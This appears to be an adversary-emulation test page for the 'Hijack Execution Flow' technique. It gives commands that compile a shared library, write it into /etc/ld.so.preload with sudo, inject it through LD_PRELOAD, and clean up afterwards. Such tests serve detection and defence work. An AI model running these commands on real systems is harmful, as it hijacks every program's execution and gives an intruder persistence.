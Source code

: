 # Hijack Execution Flow

Get Prereq Commands:  
```
gcc -shared -fPIC ./inject_lib.c -o inject_lib.so -ldl  
```
  
# Shared Library Injection via /etc/ld.so.preload  
Attack Commands:
```
sudo sh -c 'echo /tmp/inject_lib.so > /etc/ld.so.preload'
``` 
Cleanup Commands:
```
sudo sed -i 's##/tmp/inject_lib.so##' /etc/ld.so.preload  
```

# Shared Library Injection via LD_PRELOAD  
Attack Commands:
```
LD_PRELOAD=#/tmp/inject_lib.so ls  
```
